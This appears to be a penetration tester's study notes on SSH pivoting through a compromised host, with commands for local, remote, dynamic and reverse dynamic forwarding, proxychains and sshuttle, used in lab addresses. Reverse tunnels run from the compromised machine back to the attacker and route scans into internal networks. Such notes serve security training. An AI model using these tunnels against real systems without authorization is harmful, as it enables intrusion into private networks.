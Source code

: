 # ⭕ SSH Forwarding

## Local Port Forwarding

**Forwarding a port from attackers machine to a port on the compromised machine to access a specific port of a target host in the internal network.**

{% hint style="info" %}
No root access needed on compromised machine.
{% endhint %}

#### run this command on your attacking machine:

```
ssh -N -L localhost:localport:targethost:targetport [username@middlehost]
```

* localhost : attackers machine local ip address, usually use 0.0.0.0 for all interfaces.
* local port : port on attackers machine, will be used for connection later
* target host / port : ip and port of the target machine inside the internal network that we want to access
* middlehost : the compromised machine that is going to be used as a pivot point.

#### example for smb port 445:

```
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

test the connection:

```
nmap  127.0.0.1 -p 445
```

## Remote Port Forwarding

#### The reverse of local port forwarding. a port is opened on the compromised remote machine and the traffic sent to that port is forwarded to attackers local port (ssh client).

{% hint style="danger" %}
**SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports (above 1024).**

SSH configurations on the attacker machine must allow remote connection to the given user and you have to enter the user password so **don't use the root account on your machine if you don't trust the middle host.**

**I will explain how to secure remote port forwarding connections in a bit.**
{% endhint %}

#### Run this command on the middle host (compromised target).

```
ssh -N -R attackerhost:attackerport:middlehost:middleport [username@attackerhost]
```

{% hint style="info" %}
Port numbers don't have to be the same here.
{% endhint %}

example for MySQL service port 3306:

```
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

test from attacker machine:

```
nmap -sV 127.0.0.1 -p 2221
```

### Secure Remote Port Forwarding

In situations when you dont trust the middle host (compromised pivot machine) its a huge risk to your security if you use the root account or enter the password in the ssh connection. also if you are running the command in a non-interactive shell you will run into a hurdle .

#### to avoid entering our password and having problems wtih non-interactive shells we can use a few ssh command options.

#### first create a pair of ssh keys to use instead of plain-text password:

```
# on compromised middle host enter:

mkdir keys
cd keys
ssh-keygen
```

#### now the new public key needs to be entered in our attacker host’s authorized\_keys file for the attacker user:

```
# on compromised middle host enter:
cat id_rsa.pub

# copy the public key to your kali machine authorized_keys file with the security options
```

#### To avoid potential security issues we can tighten the ssh configuration only permitting access coming from the middle host IP, then we need to ignore any commands that the user supplies with ssh command options. we also need to prevent agent and x11 forwarding with no-agent-forwarding and no-x11-forwarding options. finally we want to prevent the user from being allocated a tty device with the no-tty option

the final **`~/.ssh/authorized_keys`** file on attacker machine will be like this:

![](<../../.gitbook/assets/image (265).png>)

#### This entry allows the owner of the private key (middle host) to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

then we have to add some more ssh options:

**-f :** go to background

**-N :** not running commands

**UserKnownHostsFile=/dev/null :** prevent ssh from attempting to save the host key by sending the output to /dev/null

**StrictHostKeyChecking=no** : don't prompt us to accept the host key

#### the final ssh command:

```
ssh -f -N -R attackerhost:attackerport:middlehost:middleport -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i keys/id_rsa user@attackerhost
```

## Dynamic Forwarding

#### Allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy. this way we can use all of the ports from the pivot machine.

{% hint style="warning" %}
For this technique to work, we need proxychains or other proxy tools.
{% endhint %}

the syntax is like this:

```
ssh -N -D <attackerhost>:<attackerport> <username>@<middle host>
```

#### With the above syntax in mind, we can create a local SOCKS4 application proxy ( -N -D ) on our attacker machine on TCP port 8080 ( 127.0.0.1:8080 ), which will tunnel all incoming traffic to any host in the target network, through the compromised pivot machine, which we log into.

example:

```
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Now we must somehow direct our reconnaissance and attack tools to use this proxy. We can run any network application through HTTP, SOCKS4, and SOCKS5 proxies with the help of ProxyChains.

#### we simply edit the main configuration file `/etc/proxychains.conf` and add our SOCKS4 proxy to it:

![](<../../.gitbook/assets/image (264).png>)

{% hint style="warning" %}
Make sure that there are no ther proxy IPs in proxychains config file and the specified port is the same as the port in the SSH command.
{% endhint %}

{% hint style="info" %}
By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user’s $(HOME)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs. we can use the -f options with proxychains to specify the path to the configuration file we want to use.
{% endhint %}

#### To run our tools through our SOCKS4 proxy, we prepend each command with proxychains

```
proxychains nmap -sT -Pn -n 192.168.1.110  # must use -sT option
```

{% hint style="warning" %}
**In a dynamic port forwarding we have to use -sT option with nmap to run a full TCP connect scan. other scan methods dont work since we are using a proxy.**
{% endhint %}

## Reverse Dynamic Forwarding

#### as of OpenSSH version 7.6 (Released late 2017) SSH clients may generate dynamic reverse tunnels accessible to the server they connect to. What’s really cool is that you don’t need to update your server to version 7.6 before this trick will work. As long as the client supports it, the client enforces it when it completes the connection.

run this command on the compromised remote system (this looks like the remote port forwarding but by not specifying a host after the port the ssh client will create a socks proxy on attackers system):

```
ssh -f -N -R [attackers port] -o "UserKnownHostsFile=/dev/null" -o "StricktHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa   user@[attackers IP]
```

you can check if the port is open on attackers system:

```
netstat -tupln
# look for sshd with local address of 127.0.0.1:[attackers port]
```

​​now edit proxychains configs in /etc/proxychains.conf and add the port:

```
socks4 127.0.0.1 [attackers port]
```

now a stable tunnel is established and we can use proxychains for enumeration and connection:

```
proxychains nmap -sT -Pn [target local IP]
```

{% hint style="warning" %}
SOCKS proxy needs full TCP connection, we cant use other scanning techniques, ICMP can not get through either. use -Pn option.
{% endhint %}

## SSHuttle

```
# Transparent proxy over SSH

# Forwarding traffic through the pivot
# It will then auto create necessary iptables rules
sshuttle -r user@pivoting_machine x.x.x.x/24

# You can also let sshuttle detect networks based on the target
# -x == exclude some network to not transmit over the tunnel
sshuttle -vNr user@pivoting_machine -x x.x.x.x.x/24
```
